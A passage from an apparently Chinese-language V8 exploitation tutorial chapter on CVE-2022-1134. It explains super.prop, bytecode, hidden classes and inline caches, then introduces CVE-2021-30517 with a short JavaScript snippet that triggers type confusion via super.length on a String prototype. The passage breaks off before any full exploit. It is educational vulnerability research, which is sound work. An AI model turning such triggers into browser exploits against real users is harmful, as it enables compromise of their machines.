




# Chapter6-内联缓存机制与由此而来的类型混淆

今年六月份见到了 CVE-2022-1134 ，这是 V8 在 Turbofan 中另一个很有意思的攻击面，提交者在这之后很详细的介绍了这个漏洞的利用方式，它的利用方法同之前的 Turbofan 有着很不一样，但却相当有意思的地方。

另外，由于该漏洞产生在较高版本的 V8 中，由于其已经开启了内存保护，不再主动生产 RWX 内存段了，因此本漏洞的利用还提供了对该保护的绕过方案，因此在本节中，笔者借着提交者所写的分析，用初学者的方式尽可能让它更加明朗一些。

为此，笔者需要首先介绍几个同该漏洞相关的内容，然后才能够将其成因阐述清楚。

> 但如果您希望表述更加简练，我仍然推荐您去阅读原文而非笔者所写的本篇。

**如果您发现本文存在任何错误或不严谨的表述，请联系我，我会及时修改。**

## 关于环境搭建与调试

由于本文所分析的漏洞不仅仅是 V8 自身的漏洞，还需要同 chrome 中的 Blink 模块进行交互，因此通过调试 d8 完成分析是不太现实的，需要另外编译一个 chrome 才能开始调试。

但是编译 chrome 和调试它似乎都有些许麻烦，而考虑到本文的结构性不应该涉及到环境搭建的程度，因此笔者将 chrome 的环境搭建和调试教程放在了本系列文章的仓库里，如果您在阅读时有需要参考调试环境的搭建，可以通过该仓库找到对应的文章：[https://github.com/ErodedElk/Chaos-me-JavaScript-V8](https://github.com/ErodedElk/Chaos-me-JavaScript-V8)

另外，本文也将与些许时日以后投放到仓库中。

## 引例 与 super.prop

在 JavaScript 中有一个对于其他面向对象语言开发者来说有些反常识的例子：

```js
class A {
  foo = 1;
}

class B extends A {
  foo = 2;
  constructor() {
    super();
    console.log({foo: this.foo, superFoo: super.foo})
  }
}
const b = new B();
```

在上述这段代码中，代码将会输出如下结果：

```js
Object {
  foo: 2,
  superFoo: undefined
}
```

可以注意到，`super.foo` 对于实例 `b` 而言是一个未定义的对象。

如果您使用过一些其他面向对象语言（比如 C++ 或 Java），或许就会对这个事实产生疑惑：“为什么 class B 没有继承 class A 中的 foo 对象？”

不妨用 `console.log` 将实例 `b` 打印出来，它将以如下形式表示：

```js
B {foo: 2}
	foo: 2
	[[Prototype]]: A
		constructor: class B
			length: 0
			name: "B"
			prototype: A {constructor: ƒ}
			arguments: (...)
			caller: (...)
			[[FunctionLocation]]: VM97:7
			[[Prototype]]: class A
			[[Scopes]]: Scopes[2]
		[[Prototype]]: Object
			constructor: class A
			[[Prototype]]: Object
```

而如果用 `%DebugPrint` 打印，则有如下结果：

```js
DebugPrint: 0x3ffa08049ccd: [JS_OBJECT_TYPE]
 - map: 0x3ffa08207c59 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3ffa08049b35 <B map = 0x3ffa08207c31>
 - elements: 0x3ffa0800222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x3ffa0800222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x3ffa081d3111: [String] in OldSpace: #foo: 2 (data field 0), location: in-object
 }
0x3ffa08207c59: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 52
 - inobject properties: 10
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 9
 - enum length: invalid
 - stable_map
 - back pointer: 0x3ffa08207c09 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x3ffa08142405 <Cell value= 1>
 - instance descriptors (own) #1: 0x3ffa08049d01 <DescriptorArray[1]>
 - prototype: 0x3ffa08049b35 <B map = 0x3ffa08207c31>
 - constructor: 0x3ffa080499dd <JSFunction A (sfi = 0x3ffa081d328d)>
 - dependent code: 0x3ffa080021b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 6
```

不知道您是否注意到，实例 `b` 中并不包含来自于 `A` 的数据元素。尤其是在 `[[Prototype]]: A` 中，它并不具有对应的成员。

而如果 `class A` 中具有函数成员：

```js
class A {
  foo = 1;
  demofunction(){return console.log(1);}
}
class B extends A {
  foo = 2;
  constructor() {
    super();
    console.log(this.foo)
    console.log(super.foo)
  }
}
const b = new B();
console.log(b);
```

就会有形同如下的结构：

```js
B {foo: 2}
	foo: 2
	[[Prototype]]: A
		constructor: class B
		[[Prototype]]: Object
			constructor: class A
			demofunction: ƒ demofunction()
			[[Prototype]]: Object
```

笔者在这里想要表达的意思是，形同 `super.prop` 的代码引用，它实际上是在向 `prototype` 中查找对应的成员；而在 JavaScript 中，类的继承并不会将数据成员传递到子类。

但有一个已被弃用，但 chrome 仍然实现的功能：`prototype.__proto__` 

```c
class B {
    m()
    {
	    return super.prop;
	}
}
B.prototype.__proto__={prop:1};

const b = new B();
console.log(b.m())//---> 1
```

这是可行的，因为此时的 `prototype` 会指向一个拥有 `prop` 成员的匿名类：

```js
B {}
	[[Prototype]]: Object
		constructor: class B
		m: ƒ m()
		[[Prototype]]: Object
			prop: 1
			[[Prototype]]: Object
```

在 MDN 中是如此描述 super 的：

> **super** 关键字用于访问和调用一个对象的父对象上的函数。

可以看出此处所说的 `父对象` 实则就是 `this.prototype` 所指的对象，而 `prototype.__proto__` 可以直接修改该对象。

> b.\_\_proto\_\_ is the object from which b inherits properties. B.prototype is the object which will be the \_\_proto\_\_ of objects created with new B(), that is b.\_\_proto\_\_ === B.prototype.

### 另外一个相关特性

介绍了 `prototype` 以后，我们还需要看看 `this` 所指的对象是谁：

```js
class B {
  m() {
    return super.prop;
  }
}

var b = new B();
var A = {get prop() {return this.x}, x : 'A'};
b.x = 'B';

B.prototype.__proto__ = A;
b.m() //<-------- 'B'
```

我们在上一节中说过，`super.prop` 会向 `var A` 中寻求 getter prop，这将返回 `this.x` ，而根据结果我们能够看出，它所说的 `this` 指的是发起调用的 `var b` ，在下文中，笔者将会把发起调用者称之为 `receiver` ，此处即为 `var b` 。
 

## V8中的字节码与内联缓存机制

在 V8 中，字节码和常见的 x86-64 架构一样，都是基于寄存器和堆栈的，这样能让字节码的编译更加简单。我们通过如下的代码，并对 d8 添加 `--print-bytecode` 参数将其字节码打印出来：

```js
function incrementX(obj) {
  return 1 + obj.x;
}

incrementX({x: 42});
```

我们能够得到如下输出：

```js
[generated bytecode for function: incrementX (0x28a500259e31 <SharedFunctionInfo incrementX>)]  
Bytecode length: 11  
Parameter count 2  
Register count 1  
Frame size 8  
Bytecode age: 0  
        0x28a50025a05e @    0 : 0d 01             LdaSmi [1]  
        0x28a50025a060 @    2 : c5                Star0  
        0x28a50025a061 @    3 : 2d 03 00 01       GetNamedProperty a0, [0], [1]  
        0x28a50025a065 @    7 : 39 fa 00          Add r0, [0]  
        0x28a50025a068 @   10 : aa                Return  
Constant pool (size = 1)  
0x28a50025a031: [FixedArray] in OldSpace  
- map: 0x28a500002231 <Map(FIXED_ARRAY_TYPE)>  
- length: 1  
          0: 0x28a5000041ed <String[1]: #x>  
Handler Table (size = 0)  
Source Position Table (size = 0)
```

`LdaSmi` 可以扩写为 `Load accumulator Small integer` ，意为将一个小整数放入累加寄存器中。

`Star0` 意为将累加寄存器中的值加载到 r1 寄存器中。

`GetNamedProperty` 意为将 `a0` 的命名属性加载到累加器中，这个 `ai` 指的是该函数的第 `i` 个参数，因此在本例中意为将 `obj` 的命名属性加载到累加寄存器。而该命名属性由其第二个参数 `[0]` 指定，其在一个独立的的表中进行查找：

```
- length: 1  
          0: 0x29a2000041ed <String[1]: #x>  
Handler Table (size = 0)  
```

可以看出，其对应到了 `x` ，因此是将 `obj.x` 的值加载到累加寄存器中。

而第三个参数 `[1]` 是该函数的一个**反馈向量**的索引，其用于记录一些用于性能优化的运行时信息。

`Add` 将 `r0` 的值与累加器相加后放入累加器，而 `[0]` 也是一个**反馈向量**。

在 V8 中，每个对象都拥有一个 `map` 属性用以描述自己的结构：

```js
0x28a500259fad: [Map] in OldSpace  
- type: JS_OBJECT_TYPE  
- instance size: 16  
- inobject properties: 1  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
- enum length: invalid  
- stable_map  
- back pointer: 0x28a500259f85 <Map[16](HOLEY_ELEMENTS)>  
- prototype_validity cell: 0x28a5002043cd <Cell value= 1>  
- instance descriptors (own) #1: 0x28a50010ac15 <DescriptorArray[1]>  
- prototype: 0x28a500244891 <Object map = 0x28a500243f4d>  
- constructor: 0x28a500244455 <JSFunction Object (sfi = 0x28a50021ba25)>  
- dependent code: 0x28a5000021e1 <Other heap object (WEAK_ARRAY_LIST_TYPE)>  
- construction counter: 0
```

如您所见的是，这个结构是地址相关的，因此在此之前的几篇文章中，涉及伪造 `map` 的时候，我们采取的方法是将其改为一个已有的 `map` 地址，以此来规避需要伪造所有内容的情况。

> 不知道您是否好奇过，V8 要如何检查一个参数的类型是否正确，这个过程就是通过检查其 `map` 来完成。该对象中包括了各类 flag，通过检查这些标记能够确定一个对象属于什么类型。

### 隐藏类

我们用一个非常简单的例子说明这件事：

```js
var temp={x: 1,y:2};
var temp1={x: 2,y:3};
var temp2={x: 3};
var temp3={x: 4};
%DebugPrint(temp);
%DebugPrint(temp1);
%DebugPrint(temp2);
%DebugPrint(temp3);
var temp1={x: 2,y:3,z:4};
%DebugPrint(temp1);

%SystemBreak();
```

我们主要关注其 `map` 属性的地址：

```js
DebugPrint: 0x37910010ac69: [JS_OBJECT_TYPE]  
- map: 0x37910025a061 <Map[20](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x379100244891 <Object map = 0x379100243f4d>  
- elements: 0x379100002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x379100002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x3791000041ed: [String] in ReadOnlySpace: #x: 1 (const data field 0), location: in-object  
   0x3791000041fd: [String] in ReadOnlySpace: #y: 2 (const data field 1), location: in-object  
}  
  
DebugPrint: 0x37910010acc1: [JS_OBJECT_TYPE]  
- map: 0x37910025a061 <Map[20](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x379100244891 <Object map = 0x379100243f4d>  
- elements: 0x379100002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x379100002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x3791000041ed: [String] in ReadOnlySpace: #x: 2 (const data field 0), location: in-object  
   0x3791000041fd: [String] in ReadOnlySpace: #y: 3 (const data field 1), location: in-object  
}  
  
DebugPrint: 0x37910010acd5: [JS_OBJECT_TYPE]  
- map: 0x37910025a0cd <Map[16](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x379100244891 <Object map = 0x379100243f4d>  
- elements: 0x379100002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x379100002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x3791000041ed: [String] in ReadOnlySpace: #x: 3 (const data field 0), location: in-object  
}   
  
DebugPrint: 0x37910010ad01: [JS_OBJECT_TYPE]  
- map: 0x37910025a0cd <Map[16](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x379100244891 <Object map = 0x379100243f4d>  
- elements: 0x379100002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x379100002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x3791000041ed: [String] in ReadOnlySpace: #x: 4 (const data field 0), location: in-object  
}  
  
DebugPrint: 0x37910010ad11: [JS_OBJECT_TYPE]  
- map: 0x37910025a189 <Map[24](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x379100244891 <Object map = 0x379100243f4d>  
- elements: 0x379100002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x379100002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x3791000041ed: [String] in ReadOnlySpace: #x: 2 (const data field 0), location: in-object  
   0x3791000041fd: [String] in ReadOnlySpace: #y: 3 (const data field 1), location: in-object  
   0x37910000420d: [String] in ReadOnlySpace: #z: 4 (const data field 2), location: in-object  
}  
```


可以看见，`temp` 和 `temp1` 有着相同的 `map` 地址，`temp2` 和 `temp3` 有着相同的 `map` 地址，这意味着它们有着相同类型和结构；而当我们修改了 `temp1` 的成员后，它的 `map` 属性被重构。

而在 `map` 中的一个成员 `instance descriptors` 是一个 hash 表，当用户访问某个成员时，会通过该表来定位数据，从而避免字典查询这种手段的遍历开销。

> 在 V8 中，maps 就是 隐藏类(Hidden classes) 的具体实现。

### 内联缓存

但是您也看见了，如果我们频繁的访问对象，那么每次都需要经过上述的查表操作，最终，我们会通过 `properties` 属性中根据偏移确定一项，然后从该项中确定最终的值。为了进一步优化这个过程，V8 引入了上文提到过的 **“反馈向量”**。

> **反馈向量[i]** 在英文语境中以 `slot[i]` 表示，一般被翻译为“插槽”，笔者在下文中也会用该名称表示。

简单来说，反馈向量做的事情很简单，就是当我们访问某个成员时，记录下该成员的部分信息，而当我们频繁的访问，只要 V8 通过 `map` 发现我们仍然在访问同一个隐藏类，就能够直接将之前记录下的偏移拿来使用，而不需要再经过 hash 表的查询。

此时的称之为单态内联缓存(MONOMORPHIC)：


而如果有几个不同的隐藏类，但是其访问的对象具有相同的属性，就能够形成多态内联缓存(POLYMORPHIC)：




而如果这个数量超过 4 个，就将成为超态内联缓存(MEGAMORPHIC)。

> 当然，一旦缓存由于单态向多态进化，效率就又会下降了，因为这意味着又需要回到查表的过程去了。

有关这部分内容，我们目前先介绍到这，更加详细的部分，笔者将会在下文中进一步阐述。

## 内联缓存处理程序

在 V8 中，字节码的生成是通过一系列 `IGNITION_HANDLER` 实现的，例如：

```c++
IGNITION_HANDLER(Return, InterpreterAssembler) {
  UpdateInterruptBudgetOnReturn();
  TNode<Object> accumulator = GetAccumulator();
  Return(accumulator);
}
```

`IGNITION_HANDLER(Return, InterpreterAssembler)` 用以生成字节码 `return` ，上述代码包括了整个 `return` 的实际执行内容。

类似的，`GetNamedProperty` 通过如下代码生成：

```c++
IGNITION_HANDLER(GetNamedProperty, InterpreterAssembler) {
  TNode<HeapObject> feedback_vector = LoadFeedbackVector();

  // Load receiver.
  TNode<Object> recv = LoadRegisterAtOperandIndex(0);

  // Load the name and context lazily.
  LazyNode<TaggedIndex> lazy_slot = [=] {
    return BytecodeOperandIdxTaggedIndex(2);
  };
  LazyNode<Name> lazy_name = [=] {
    return CAST(LoadConstantPoolEntryAtOperandIndex(1));
  };
  LazyNode<Context> lazy_context = [=] { return GetContext(); };

  Label done(this);
  TVARIABLE(Object, var_result);
  ExitPoint exit_point(this, &done, &var_result);

  AccessorAssembler::LazyLoadICParameters params(lazy_context, recv, lazy_name,
                                                 lazy_slot, feedback_vector);
  AccessorAssembler accessor_asm(state());
  accessor_asm.LoadIC_BytecodeHandler(&params, &exit_point);

  BIND(&done);
  {
    SetAccumulator(var_result.value());
    Dispatch();
  }
}
```

其主要的任务将被委派给 `LoadIC_BytecodeHandler` ，由它来确定如何加载对应的变量。

在最开始，由于该指令第一次运行，没有收集到任何的反馈，因此它会调用慢速路径并收集反馈信息：

```c++
void AccessorAssembler::LoadIC_BytecodeHandler(const LazyLoadICParameters* p,
                                               ExitPoint* exit_point) {
  ......

  GotoIf(IsUndefined(p->vector()), &no_feedback);

  ......

  BIND(&no_feedback);
  {
    Comment("LoadIC_BytecodeHandler_nofeedback");
    // Call into the stub that implements the non-inlined parts of LoadIC.
    exit_point->ReturnCallStub(
        Builtins::CallableFor(isolate(), Builtin::kLoadIC_NoFeedback),
        p->context(), p->receiver(), p->name(),
        SmiConstant(FeedbackSlotKind::kLoadProperty));
  }
  ......
}
```

而当其收集到了一定的信息后：

```c++
void AccessorAssembler::LoadIC_BytecodeHandler(const LazyLoadICParameters* p,
                                               ExitPoint* exit_point) {
  ......
  // Inlined fast path.
  {
    Comment("LoadIC_BytecodeHandler_fast");

    TVARIABLE(MaybeObject, var_handler);
    Label try_polymorphic(this), if_handler(this, &var_handler);

    TNode<HeapObjectReference> feedback = TryMonomorphicCase(
        p->slot(), CAST(p->vector()), lookup_start_object_map, &if_handler,
        &var_handler, &try_polymorphic);

    BIND(&if_handler);
    HandleLoadICHandlerCase(p, var_handler.value(), &miss, exit_point);

    BIND(&try_polymorphic);
    {
      TNode<HeapObject> strong_feedback =
          GetHeapObjectIfStrong(feedback, &miss);
      GotoIfNot(IsWeakFixedArrayMap(LoadMap(strong_feedback)), &stub_call);
      HandlePolymorphicCase(lookup_start_object_map, CAST(strong_feedback),
                            &if_handler, &var_handler, &miss);
    }
  }
  ......
}
```

该程序将进入快速路径，并开始寻找对应的处理函数。对于单态内联缓存，将通过 `TryMonomorphicCase` 找到处理程序，然后执行 `HandleLoadICHandlerCase` 进行安装。否则就会进一步向下探索多态内联缓存。

但是如果没有足够的反馈信息提供处理程序，那么就会走 miss 路径开始寻找：

```c++
  BIND(&miss);
  {
    Comment("LoadIC_BytecodeHandler_miss");

    exit_point->ReturnCallRuntime(Runtime::kLoadIC_Miss, p->context(),
                                  p->receiver(), p->name(), p->slot(),
                                  p->vector());
  }
```

`ReturnCallRuntime` 将会根据参数选择适当的运行时函数执行，以访问 `String.length` 为例，它将根据 `Runtime::kLoadIC_Miss` 调用如下函数：

```c++
RUNTIME_FUNCTION(Runtime_LoadIC_Miss) {
  ......
  FeedbackSlotKind kind = vector->GetKind(vector_slot);
  if (IsLoadICKind(kind)) {
    LoadIC ic(isolate, vector, vector_slot, kind);
    ic.UpdateState(receiver, key);
    RETURN_RESULT_OR_FAILURE(isolate, ic.Load(receiver, key));

  } else if 
  ......
}
```

它首先构造了一个 `LoadIC` 对象，然后对其调用 `Load` 方法，该方法加载调用者的各项属性，同时为其创建优化程序：

```c++
MaybeHandle<Object> LoadIC::Load(Handle<Object> object, Handle<Name> name,
                                 bool update_feedback,
                                 Handle<Object> receiver) {
  bool use_ic = (state() != NO_FEEDBACK) && FLAG_use_ic && update_feedback;

  ......
  LookupIterator it = LookupIterator(isolate(), receiver, key, object);
  ......
  if (it.IsFound() || !ShouldThrowReferenceError()) {
    // Update inline cache and stub cache.
    if (use_ic) {
      UpdateCaches(&it);
    }
    ......
}
```

在 `UpdateCaches` 将调用 `ComputeHandler` 来构造具体的处理程序：

```c++
void LoadIC::UpdateCaches(LookupIterator* lookup) {
  MaybeObjectHandle handler;
  if (lookup->state() == LookupIterator::ACCESS_CHECK) {
    ......
  } else {
    ......
    handler = ComputeHandler(lookup);
  }
}
```

```c++
Handle<Object> LoadIC::ComputeHandler(LookupIterator* lookup) {
    ...
    case LookupIterator::ACCESSOR: {
      Handle<JSObject> holder = lookup->GetHolder<JSObject>();
      ...
      FieldIndex field_index;
      if (Accessors::IsJSObjectFieldAccessor(isolate(), map, lookup->name(),
                                             &field_index)) {
        TRACE_HANDLER_STATS(isolate(), LoadIC_LoadFieldDH);
        return LoadHandler::LoadField(isolate(), field_index);  //<-- Creates new handler
      }
      ...
   }
   ...
}
```

在完成创建以后，如果之后再次调用 `GetNamedProperty` ，若其访问的是 `Array` 或 `String` 类型的长度属性，或是访问一些简单的数据类型或 `getter` 和 `setter` 属性，则触发如下调用链：

> LoadIC_BytecodeHandler -> HandleLoadICHandlerCase -> HandleLoadICSmiHandlerCase -> HandleLoadICSmiHandlerLoadNamedCase

```c++
void AccessorAssembler::HandleLoadICSmiHandlerLoadNamedCase(
    const LazyLoadICParameters* p, TNode<Object> holder,
    TNode<IntPtrT> handler_kind, TNode<WordT> handler_word, Label* rebox_double,
    TVariable<Float64T>* var_double_value, TNode<Object> handler, Label* miss,
    ExitPoint* exit_point, ICMode ic_mode, OnNonExistent on_nonexistent,
    ElementSupport support_elements) {
  ...

  GotoIf(WordEqual(handler_kind, LOAD_KIND(kField)), &field);
  ...
  BIND(&field);
  {
    ...
    HandleLoadField(CAST(holder), handler_word, var_double_value, rebox_double,
                    miss, exit_point);  //<----- loads the field from an offset encoded in `handler_word`
    ...
  }  
  ...
}
```

最终会确定处理程序的类型为 `kField` ，它将包含字段的偏移，调用该程序将能够直接通过偏移访问到对应的属性，而不再需要通过 `getter` 。

> 当然也有其他情况，但以此为例较为简单，笔者认为这确实很适合用来理解内联缓存。
> 
> 简单来说就是，直接消除了类型检查的部分，对于确定好内存结构的对象，直接从固定偏移处获取数值，这肯定要快于调用函数的查找。

### 超级内联缓存

其意义与内联缓存相近，但主要区别在于，其访问的属性不定义在 `receiver` 上，而是在某个父对象上。因此在检查对象类型的时候，不仅要检查当前调用者的类型，还需要确定父对象的类型是否合法。

而其对应的字节码也有相近的名称，例如 `GetNamedProperty` 在超级内联缓存中使用 `GetNamedPropertyFromSuper` ：

```c++
IGNITION_HANDLER(GetNamedPropertyFromSuper, InterpreterAssembler) {
  TNode<Object> receiver = LoadRegisterAtOperandIndex(0);
  TNode<HeapObject> home_object = CAST(GetAccumulator());
  TNode<Object> home_object_prototype = LoadMapPrototype(LoadMap(home_object));
  TNode<Object> name = LoadConstantPoolEntryAtOperandIndex(1);
  TNode<TaggedIndex> slot = BytecodeOperandIdxTaggedIndex(2);
  TNode<HeapObject> feedback_vector = LoadFeedbackVector();
  TNode<Context> context = GetContext();

  TNode<Object> result =
      CallBuiltin(Builtin::kLoadSuperIC, context, receiver,
                  home_object_prototype, name, slot, feedback_vector);
  SetAccumulator(result);
  Dispatch();
}
```

该指令会调用内建函数 `LoadSuperIC` 完成工作：

```c++
void AccessorAssembler::LoadSuperIC(const LoadICParameters* p) {
  ......
  TNode<Map> lookup_start_object_map = LoadMap(CAST(p->lookup_start_object()));
  GotoIf(IsDeprecatedMap(lookup_start_object_map), &miss);

  TNode<HeapObjectReference> feedback =
      TryMonomorphicCase(p->slot(), CAST(p->vector()), lookup_start_object_map,
                         &if_handler, &var_handler, &try_polymorphic);

  BIND(&if_handler);
  {
    LazyLoadICParameters lazy_p(p);
    HandleLoadICHandlerCase(&lazy_p, var_handler.value(), &miss, &direct_exit);
  }
  ......
}
```

其结构大致相同，首先会通过 `TryMonomorphicCase` 寻找是否存在处理程序，若存在，则通过 `HandleLoadICHandlerCase` 进行调用。

### 易受攻击的代码段与相似漏洞

```c++
void AccessorAssembler::HandleLoadICHandlerCase(
    const LazyLoadICParameters* p, TNode<Object> handler, Label* miss,
    ExitPoint* exit_point, ICMode ic_mode, OnNonExistent on_nonexistent,
    ElementSupport support_elements, LoadAccessMode access_mode) {
  ...

  BIND(&call_handler);
  {
    exit_point->ReturnCallStub(LoadWithVectorDescriptor{}, CAST(handler),
                               p->context(), p->receiver(), p->name(),//<receiver
                               p->slot(), p->vector());
  }
}
```

早在 CVE- 2021-30517 时就发现了这样一个漏洞，当时的 `HandleLoadICHandlerCase` 调用方式如上，我们可以发现，它将 ` p->receiver()` 作为参数。

`String` 和 `Function` 类型的对象的处理程序将使用 `call_handler` 分支，而对应的处理程序由  `ComputeHandler` 生成：

```c++
Handle<Object> LoadIC::ComputeHandler(LookupIterator* lookup) {
  Handle<Object> receiver = lookup->GetReceiver();
  ...
  if (!IsAnyHas() && !lookup->IsElement()) {
    if (receiver->IsString() && *lookup->name() == roots.length_string()) {
      TRACE_HANDLER_STATS(isolate(), LoadIC_StringLength);
      return BUILTIN_CODE(isolate(), LoadIC_StringLength);
    }
    ...
    // Use specialized code for getting prototype of functions.
    if (receiver->IsJSFunction() &&
        *lookup->name() == roots.prototype_string() &&
        !JSFunction::cast(*receiver).PrototypeRequiresRuntimeLookup()) {
      TRACE_HANDLER_STATS(isolate(), LoadIC_FunctionPrototypeStub);
      return BUILTIN_CODE(isolate(), LoadIC_FunctionPrototype);
    }
  }
```

`LoadIC_StringLength` 和 `LoadIC_FunctionPrototype` 指定了将用何种方式创建内建函数：

```c++
TFH(LoadIC_FunctionPrototype, LoadWithVector) \
TFH(LoadIC_StringLength, LoadWithVector) \
```

```c++
// TFH: Handlers in Turbofan, with CodeStub linkage.
// Args: name, interface descriptor

#define BUILD_TFH(Name, InterfaceDescriptor)                 \
  /* Return size for IC builtins/handlers is always 1. */    \
  code = BuildWithCodeStubAssemblerCS(                       \
      isolate, Builtin::k##Name, &Builtins::Generate_##Name, \
      CallDescriptors::InterfaceDescriptor, #Name);          \
  AddBuiltin(builtins, Builtin::k##Name, code);              \
  index++;
```

这类函数都是简单的 C++ 级别函数，它们不做类型检查等操作，只是简单的返回对应偏移处的值。因此如果没有对调用者的类型进行提前检查就有可能导致非预期的行为。

在 `CVE-2021-30517` 中，由于在调用处理程序时候传入的是 `p->receiver()` ，但 `LoadSuperIC` 本该获取的是父对象中的属性，因此绕过了类型检查，使得在调用时假定了对象的内存布局合法，从而导致了类型混淆，例如如下代码：

```js
obj = {a:1};
obj_array = [obj];
    class C {
    m() {
        return super.length;
    }
}
f = new String("aaaa");
C.prototype.__proto__ = f

let c = new C()
c.x0 = obj_array; 
```

在 `CVE-2021-30517` 中，方法 `m` 将返回 `super.length` ，而在多次执行该段函数后产生了超级内联缓存，它记录了变量 `f` 的长度偏移：

```c
DebugPrint: 0x34d30010adf1: [JSPrimitiveWrapper]  
